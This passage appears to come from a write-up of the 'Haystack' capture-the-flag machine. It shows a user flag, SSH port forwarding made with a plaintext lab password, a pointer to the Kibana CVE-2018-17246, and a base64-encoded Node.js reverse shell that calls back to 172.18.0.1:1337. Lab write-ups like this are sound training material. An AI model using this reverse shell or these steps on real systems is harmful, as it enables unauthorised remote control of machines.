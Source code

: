 9. Show user flag
```
[security@haystack ~]$ cat user.txt 
433b15de302ea4732eaceff8abc0917e
```

---
---
---
### **Privileges Escalation** 💀
1. Search any information to try escalate privileges.
```
[security@haystack ~]$ ss -nltp
```
**Output**
```
LISTEN      0      128       127.0.0.1:5601        *:* 
```
* This port is access to Kibana.

* In this case we need to do port forwarding.
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/HayStack]
└─| sshpass -p 'spanish.is.key' ssh security@10.10.10.115 -L 5601:127.0.0.1:5601
```

2. Visit new webpage.

![kibana.PNG](/assets/Machines/Easy/Haystack/kibana.PNG)

3. If you search for any exploit you cand find this [CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246).

4. Then, you need to create a exploit in **js** in any folder of system (I create in /tmp directory)

* Copy the shell provides in github project and encode in **base64** (Remember change port and IP)
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/HayStack]
└─# cat exploit.js | base64                             
KGZ1bmN0aW9uKCl7CiAgICB2YXIgbmV0ID0gcmVxdWlyZSgibmV0IiksCiAgICAgICAgY3AgPSBy
ZXF1aXJlKCJjaGlsZF9wcm9jZXNzIiksCiAgICAgICAgc2ggPSBjcC5zcGF3bigiL2Jpbi9zaCIs
IFtdKTsKICAgIHZhciBjbGllbnQgPSBuZXcgbmV0LlNvY2tldCgpOwogICAgY2xpZW50LmNvbm5l
Y3QoMTMzNywgIjE3Mi4xOC4wLjEiLCBmdW5jdGlvbigpewogICAgICAgIGNsaWVudC5waXBlKHNo
LnN0ZGluKTsKICAgICAgICBzaC5zdGRvdXQucGlwZShjbGllbnQpOwogICAgICAgIHNoLnN0ZGVy
ci5waXBlKGNsaWVudCk7CiAgICB9KTsKICAgIHJldHVybiAvYS87IC8vIFByZXZlbnRzIHRoZSBO
b2RlLmpzIGFwcGxpY2F0aW9uIGZvcm0gY3Jhc2hpbmcKfSkoKTsK
```
